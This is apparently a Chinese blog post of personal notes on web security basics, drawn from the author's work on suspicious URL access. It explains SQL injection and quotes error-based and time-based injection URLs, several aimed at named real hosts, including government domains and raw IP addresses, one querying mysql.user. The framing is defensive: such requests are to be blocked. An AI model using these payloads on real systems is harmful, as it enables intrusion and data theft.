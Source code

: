 ```yaml
---
title: "Web安全基础学习"
date: 2022-05-11
tags: ["安全",""]
description: "2021年做url访问安全方面的记录，刚好这两天有某安全公司招聘，就贴出来吧"
draft: false
---
```


首先说下自己并不是专门做安全的，此次总结也确实是工作中遇到了这类问题需要解决

当然如果你自己有过搭建服务的经历，或许会在服务的访问记录中看到各种乱七八载的访问

如果有以下情况的话，就送他一个iptables套餐吧

# SQL注入

> SQL注入是一种代码注入技术，用于攻击数据驱动的应用程序。 在应用程序中，如果没有做恰当的过滤，则可能使得恶意的SQL语句被插入输入字段中执行（例如将数据库内容转储给攻击者）

报错注入

- extractvalue(1, concat(0x5c,(select user())))
- updatexml(0x3a,concat(1,(select user())),1)

```
http://ns2.stats.gov.cn/comment/api/index.php?gid=1&page=2&rlist%5B%5D=%40%60%27%60%2C+extractvalue%281%2C+concat_ws%280x20%2C+0x5c%2C%28select+md5%28202072102%29%29%29%29%2C%40%60%27%60

http://14.29.113.88:9292/api/sms_check.php?param=1%27+and+updatexml%281%2Cconcat%280x7e%2C%28SELECT+MD5%281234%29%29%2C0x7e%29%2C1%29--+
```

数据路检测（mysql）

- sleep：sleep(1) 让sql运行多少秒
- 字符串连接：SELECT CONCAT(’some‘, 'string')
- 报错注入：convert(int, (db_name()))
- 等等

```
http://218.13.13.90:8081/fsGovPlatform/js/(select(0)from(select(sleep(34)))v)%2f*'+(select(0)from(select(sleep(34)))v)+'""+(select(0)from(select(sleep(34)))v)+""*%2f/timepicker/jquery-ui-timepicker-addon.js

http://210.76.74.50/faq.php?action=grouppermission&gids%5B100%5D%5B0%5D=%29+and+%28select+1+from+%28select+count%28%2A%29%2Cconcat%28%28select+concat%28user%2C0x3a%2Cmd5%281234%29%2C0x3a%29+from+mysql.user+limit+0%2C1%29%2Cfloor%28rand%280%29%2A2%29%29x+from+information_schema.tables+group+by+x%29a%29%23&gids%5B99%5D=%27

http://xwrz.huizhou.gov.cn/invest-client/rzcs/index.html?assureType=123456&minBalance=convert%28int%2Csys.fn_sqlvarbasetostr%28HashBytes%28%27MD5%27%2C%271078491144%27%29%29%29&moneyrateStart=123456&type=123456
```

